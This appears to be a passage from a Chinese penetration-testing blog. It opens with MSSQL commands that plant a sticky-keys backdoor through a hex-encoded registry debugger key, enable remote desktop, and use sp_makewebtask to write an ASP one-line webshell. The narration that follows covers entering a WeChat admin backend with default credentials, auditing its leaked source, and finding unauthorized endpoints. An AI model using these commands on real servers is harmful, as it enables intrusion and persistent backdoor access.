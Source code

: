 >'debugger',
>'REG_SZ',
>'c:\\windows\\system32\\taskmgr.exe'
>16进制
>exec xp_regwrite
>0x484b45595f4c4f43414c5f4d414348494e45,
>0x534f4654574152455c4d6963726f736f66745c57696e646f7773204e545c43757272656e7456657273696f6e5c496d6167652046696c6520457865637574696f6e204f7074696f6e735c73657468632e657865,
>0x6465627567676572,
>0x5245475f535a,
>查看远程桌面开启
>exec xp_regread
>'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\TerminalServer',
>'fDenyTSConnections'
>开启远程桌面
>exec xp_regwrite
>'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\TerminalServer',
>'fDenyTSConnections',
>'REG_DWord',0
>```

> sp_makewebtask写入一句话
>
> ```
> exec sp_configure 'Web AssistantProcedures', 1; RECONFIGURE
> exec sp_makewebtask 'c:\1.asp','select''<%execute(request("ruo"))%>'''
> ```

---

还有另一个资产居然和我们组长一样的，窝瑟瑟发抖

弱密码进去一康是管理微信公众号各种后台的，搜了一下一些都不像鸭

看了一下系统有米有指纹也米有啊，然后用了个看起来奇葩一点的路径去github一搜，居然真的搞到了真的。。。

2star我还不太信，结果看到了默认用户名密码还真一样，找了个路径一访问。。。绝对是真的。窝惊了。

然后就开始瞎几把审计？像模像样地和大佬一样找路由和upload点？

第一下看的都是aspx，感觉有点不对？

才发现原来.cs才是后端代码。。。原来C#是和.net一起用哒Orz

幸好代码都长一个样，直接构造了一下访问的接口居然全都是未授权

然后又像模像样地各种函数跟进跟进？

飘了。好的窝会审计了。（才怪

别的还有各种垃圾高危就不嗦了。这个系统本身的广告页面都没删。随便一注册就是管理员。随便一登录就能越权。appsecret到处都是。有waf了不起啊。（就是了不起呜呜呜，只能对着源码找点逻辑漏洞

总之幸好站太辣鸡大概没有被嫌弃～嘿嘿

另外原来这种站要传asmx和ashx的马才会解析，窝还想传.cs？

---
